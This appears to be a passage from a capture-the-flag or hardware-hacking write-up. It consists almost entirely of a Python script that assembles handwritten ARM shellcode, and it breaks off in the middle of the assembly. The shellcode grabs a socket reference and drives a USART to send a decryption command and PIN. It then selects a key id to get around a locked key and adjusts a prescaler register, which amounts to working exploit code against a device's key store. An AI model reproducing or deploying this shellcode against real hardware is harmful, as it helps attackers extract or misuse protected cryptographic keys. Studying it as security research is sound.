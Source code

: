 **Trigger warning**: a lot of painstakingly handwritten ARM assembly ahead.

```python
BUFFER_ADDR = 0x20001cd0
def push_dword(p):
    assert len(p) == 4
    return "\neor r0, r0, r0\n" + "\nlsl r0, r0, 8\n".join(f"orr r0, r0, {x}" for x in p) + "\npush {r0}\n"

def call(x):
    return f"ldr r9, ={x}; ldr r9, [r9]; blx r9"

BLOCK_COUNT = 2
SIZE = BLOCK_COUNT * 16
KEY_ID = 1

def make_shellcode(tm):
    return asm(f"""
            /* retrieve a ref to the socket, in r4 */
            sub sp, sp, 0x33c
            pop \{\{r4\}\}
            adds sp, sp, 0x338
            push \{\{r0, r1, r2, r3, r4, r5, r6, r7, r8, r9, r10, r11, r12\}\}

            /* r5 keeps the usart */
            mov r5, 1
            lsl r5, r5, 29

            ldr r1, [r5, 4]
            ldr r0, [r1, 0x100]
            str r0, [r1, 0x104]

            /* tx the decryption command and pin */
            mov r0, r5
            mov r1, 3
            {call('TX')}
            mov r8, r9

            mov r0, r5
            ldr r1, =PIN
            mov r2, 8
            {call('TX_BUF')}

            /* rx the pin response */
            mov r0, r5
            {call('RX')} /*  now r8 = tx, r9 = rx */
            mov r6, r9
            subs r0, r0, 1
            cbz r0, NOSTOP_PIN
            b END
            NOSTOP_PIN:

            ldr r10, =PRESCALER_REGISTER
            ldr r10, [r10]
            ldr r11, [r10]
            mov r12, 3
            lsl r12, 24
            bic r12, r11, r12

            mov r0, r5
            mov r1, {KEY_ID} /* key id, 2 is the locked one*/
            blx r8

            mov r0, {tm}
```